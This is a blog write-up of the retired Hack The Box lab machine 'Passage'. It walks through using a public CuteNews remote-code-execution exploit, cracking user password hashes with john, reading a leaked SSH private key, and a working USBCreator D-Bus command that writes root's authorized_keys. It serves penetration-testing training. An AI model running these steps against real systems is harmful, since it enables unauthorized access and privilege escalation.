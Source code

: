 Title:HTB: Passage
Date: 03-09-2021 09:20
category:security
tags:security, boot2root, HTB, linux
meta:security, boot2root, HTB, linux

<img class="align-left" src="/media/2021.03/passage_card.png" alt="Passage Card" width="262">

This box is a writeup about a retired HacktheBox machine:
[Passage](https://www.hackthebox.eu/home/machines/profile/275) publish on
September 2, 2020 by
[ChefByzen](https://www.hackthebox.eu/home/users/profile/140851).
This box is rated as a medium box. It implies two public exploit and a shared SSH
private key.

<!-- PELICAN_END_SUMMARY -->

# Foothold

## Recon

Let us start as always by a `nmap` scan. Only port 80 (HTTP) and 22 (SSH) are
open.

    :::text
    # Nmap 7.80 scan initiated Sun Sep 13 03:46:59 2020 as: nmap -p- -sSV -oN nmap 10.10.10.206
    Nmap scan report for 10.10.10.206
    Host is up (0.086s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## Web

We browse to the website. This is a simple blog with some news. One of them is
about a [fail2ban](https://www.fail2ban.org/wiki/index.php/Main_Page)
implementation. This will dissuade us to brute force login interfaces (which
rarely happen on HTB) and run `dirb` against the site.

![Passage News index](/media/2021.03/passage_01.png)

When looking at the bottom of the page we see that the blog is "Powered by
CuteNews". A few Google search lead us to the admin panel located at `/CuteNews`

![Cute News login page](/media/2021.03/passage_02.png)

We cannot login as we don't have any creds nor create an account.
We also check the available exploit for this CuteNews version (2.1.2).

    :::text
    kali@kali:~$ searchsploit CuteNews 2.1.2
    ----------------------------------------------------------- ---------------------------------
    Exploit Title                                             |  Path
    ----------------------------------------------------------- ---------------------------------
    CuteNews 2.1.2 - 'avatar' Remote Code Execution (Metasploi | php/remote/46698.rb
    CuteNews 2.1.2 - Arbitrary File Deletion                   | php/webapps/48447.txt
    CuteNews 2.1.2 - Authenticated Arbitrary File Upload       | php/webapps/48458.txt
    ----------------------------------------------------------- ---------------------------------
    Shellcodes: No Results

We import the 'Avatar' exploit into metasploit using [rapid7 guide](https://github.com/rapid7/metasploit-framework/wiki/Running-Private-Modules).
We register an account an launch the exploit and got a reverse shell as `www-data`.

We look at the available files. We found the `cdata` folder just a level above
and then the `users` directory. We display some of them. They contain base64
encoded user data. Some of them contain a SHA256 hashed password.

    :::text
    cat b0.php
    <?php die('Direct call - access denied'); ?>
    YToxOntzOjQ6Im5hbWUiO2E6MTp7czoxMDoicGF1bC1jb2xlcyI7YTo5OntzOjI6ImlkIjtzOjEwOiIxNTkyNDgzMjM2IjtzOjQ6Im5hbWUiO3M6MTA6InBhdWwtY29sZXMiO3M6MzoiYWNsIjtzOjE6IjIiO3M6NToiZW1haWwiO3M6MTY6InBhdWxAcGFzc2FnZS5odGIiO3M6NDoibmljayI7czoxMDoiUGF1bCBDb2xlcyI7czo0OiJwYXNzIjtzOjY0OiJlMjZmM2U4NmQxZjgxMDgxMjA3MjNlYmU2OTBlNWQzZDYxNjI4ZjQxMzAwNzZlYzZjYjQzZjE2ZjQ5NzI3M2NkIjtzOjM6Imx0cyI7czoxMDoiMTYwMDA4MDM1OSI7czozOiJiYW4iO3M6MToiMCI7czozOiJjbnQiO3M6MToiMiI7fX19

    a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}

We grab all the hashes and crack them using `john` and the rockyou wordlist.
`Paul`'s password is `atlanta1`.

    :::text
    [maggick@fomalhaut ~]$ john hash -w=~/tools/password_lists/rockyou.txt --fork=8 --rules --format=Raw-SHA256
    Using default input encoding: UTF-8
    Loaded 4 password hashes with no different salts (Raw-SHA256 [SHA256 128/128 AVX 4x])
    Warning: OpenMP was disabled due to --fork; a non-OpenMP build may be faster
    Node numbers 1-8 of 8 (fork)
    Each node loaded 1/8 of wordfile to memory (about 16 MB/node)
    atlanta1         (paul)
    Press 'q' or Ctrl-C to abort, almost any other key for status
    atlanta1         (paul)
    atlanta1         (paul)
    atlanta1         (paul)
    Waiting for 7 children to terminate
    Session completed

We open a shell, and try to switch user but we cannot use `su` as we don't have
a proper terminal. Using
[Payload all the things cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell)
we get an interactive shell and get logged in as `paul` and grab the user flag.

    :::text
    meterpreter > shell
    Process 3053 created.
    Channel 14 created.
      su 
    su: must be run from a terminal
    /usr/bin/script -qc /bin/bash /dev/null                  
    www-data@passage:/var/www/html/CuteNews/cdata/users$ su paul
    su paul
    Password: atlanta1

    paul@passage:/var/www/html/CuteNews/cdata/users$ cd
    cd
    paul@passage:~$ cat user.txt
    cat user.txt 
    c9e5ea0c3e42965404e9cf34eaee71bd

# Root

We grab the SSH key in paul's `.ssh` folder. The associated public key show us
that this is `nadav` public (and private) key.

    :::text
    cat .ssh/id_rsa.pub
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzXiscFGV3l9T2gvXOkh9w+BpPnhFv5AOPagArgzWDk9uUq7/4v4kuzso/lAvQIg2gYaEHlDdpqd9gCYA7tg76N5RLbroGqA6Po91Q69PQadLsziJnYumbhClgPLGuBj06YKDktI3bo/H3jxYTXY3kfIUKo3WFnoVZiTmvKLDkAlO/+S2tYQa7wMleSR01pP4VExxPW4xDfbLnnp9zOUVBpdCMHl8lRdgogOQuEadRNRwCdIkmMEY5efV3YsYcwBwc6h/ZB4u8xPyH3yFlBNR7JADkn7ZFnrdvTh3OY+kLEr6FuiSyOEWhcPybkM5hxdL9ge9bWreSfNC1122qq49d nadav@passage
    paul@passage:~$ cat .ssh/id_rsa
    cat .ssh/id_rsa
    -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEAs14rHBRld5fU9oL1zpIfcPgaT54Rb+QDj2oAK4M1g5PblKu/
    +L+JLs7KP5QL0CINoGGhB5Q3aanfYAmAO7YO+jeUS266BqgOj6PdUOvT0GnS7M4i
    Z2Lpm4QpYDyxrgY9OmCg5LSN26Px948WE12N5HyFCqN1hZ6FWYk5ryiw5AJTv/kt
    rWEGu8DJXkkdNaT+FRMcT1uMQ32y556fczlFQaXQjB5fJUXYKIDkLhGnUTUcAnSJ
    JjBGOXn1d2LGHMAcHOof2QeLvMT8h98hZQTUeyQA5J+2RZ63b04dzmPpCxK+hbok
    sjhFoXD8m5DOYcXS/YHvW1q3knzQtddtqquPXQIDAQABAoIBAGwqMHMJdbrt67YQ
    eWztv1ofs7YpizhfVypH8PxMbpv/MR5xiB3YW0DH4Tz/6TPFJVR/K11nqxbkItlG
    QXdArb2EgMAQcMwM0mManR7sZ9o5xsGY+TRBeMCYrV7kmv1ns8qddMkWfKlkL0lr
    lxNsimGsGYq10ewXETFSSF/xeOK15hp5rzwZwrmI9No4FFrX6P0r7rdOaxswSFAh
    zWd1GhYk+Z3qYUhCE0AxHxpM0DlNVFrIwc0DnM5jogO6JDxHkzXaDUj/A0jnjMMz
    R0AyP/AEw7HmvcrSoFRx6k/NtzaePzIa2CuGDkz/G6OEhNVd2S8/enlxf51MIO/k
    7u1gB70CgYEA1zLGA35J1HW7IcgOK7m2HGMdueM4BX8z8GrPIk6MLZ6w9X6yoBio
    GS3B3ngOKyHVGFeQrpwT1a/cxdEi8yetXj9FJd7yg2kIeuDPp+gmHZhVHGcwE6C4
    IuVrqUgz4FzyH1ZFg37embvutkIBv3FVyF7RRqFX/6y6X1Vbtk7kXsMCgYEA1WBE
    LuhRFMDaEIdfA16CotRuwwpQS/WeZ8Q5loOj9+hm7wYCtGpbdS9urDHaMZUHysSR
    AHRFxITr4Sbi51BHUsnwHzJZ0o6tRFMXacN93g3Y2bT9yZ2zj9kwGM25ySizEWH0
    VvPKeRYMlGnXqBvJoRE43wdQaPGYgW2bj6Ylt18CgYBRzSsYCNlnuZj4rmM0m9Nt
    1v9lucmBzWig6vjxwYnnjXsW1qJv2O+NIqefOWOpYaLvLdoBhbLEd6UkTOtMIrj0
    KnjOfIETEsn2a56D5OsYNN+lfFP6Ig3ctfjG0Htnve0LnG+wHHnhVl7XSSAA9cP1
    9pT2lD4vIil2M6w5EKQeoQKBgQCMMs16GLE1tqVRWPEH8LBbNsN0KbGqxz8GpTrF
    d8dj23LOuJ9MVdmz/K92OudHzsko5ND1gHBa+I9YB8ns/KVwczjv9pBoNdEI5KOs
    nYN1RJnoKfDa6WCTMrxUf9ADqVdHI5p9C4BM4Tzwwz6suV1ZFEzO1ipyWdO/rvoY
    f62mdwKBgQCCvj96lWy41Uofc8y65CJi126M+9OElbhskRiWlB3OIDb51mbSYgyM
    Uxu7T8HY2CcWiKGe+TEX6mw9VFxaOyiBm8ReSC7Sk21GASy8KgqtfZy7pZGvazDs
    OR3ygpKs09yu7svQi8j2qwc7FL6DER74yws+f538hI7SHBv9fYPVyw==
    -----END RSA PRIVATE KEY-----

So we just us the SSH key to connect as `nadav`.

    :::text
    kali@kali:~$ ssh -l nadav 10.10.10.206 -i .ssh/id_rsa-2
    load pubkey ".ssh/id_rsa-2": invalid format
    Last login: Mon Sep 14 04:54:44 2020 from 10.10.14.5
    nadav@passage:~$ id
    uid=1000(nadav) gid=1000(nadav) groups=1000(nadav),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)

We look at the files in the home folder. In .viminfo we found that one of the
latest edited file is about USBCreator.

    :::text
    # Jumplist (newest first):
    -'  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
    -'  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf

A quick Google search lead us a [blog post](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)
with an USBCreator privilege escalation exploit allowing to write a file on the system as
root. We reproduce the steps in order to copy `nadav`'s `authorized_keys` file in
the `root`'s `.ssh` directory. We can then connect as `root` with our SSH key
and get the flag.


    :::text
    nadav@passage:~$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/.ssh/authorized_keys /root/.ssh/authorized_keys true
    ()
    nadav@passage:~$ logout
    Connection to 10.10.10.206 closed.
    kali@kali:~$ ssh -l nadav 10.10.10.206 -i .ssh/id_rsa-2
    load pubkey ".ssh/id_rsa-2": invalid format
    Last login: Mon Sep 14 05:13:56 2020 from 127.0.0.1
    nadav@passage:~$ logout
    Connection to 10.10.10.206 closed.
    kali@kali:~$ ssh -l root 10.10.10.206 -i .ssh/id_rsa-2
    load pubkey ".ssh/id_rsa-2": invalid format
    Last login: Mon Aug 31 15:14:22 2020 from 127.0.0.1
    root@passage:~# id
    uid=0(root) gid=0(root) groups=0(root)
    root@passage:~# cat root.txt o
    db9c53fcf5bde2fa5a591bcb948a1d3a

# Wrapping up

This box was quit easy. Not to much rabbit hole. At the end this is just the
chaining of two public exploits. I will recommend it for beginners.

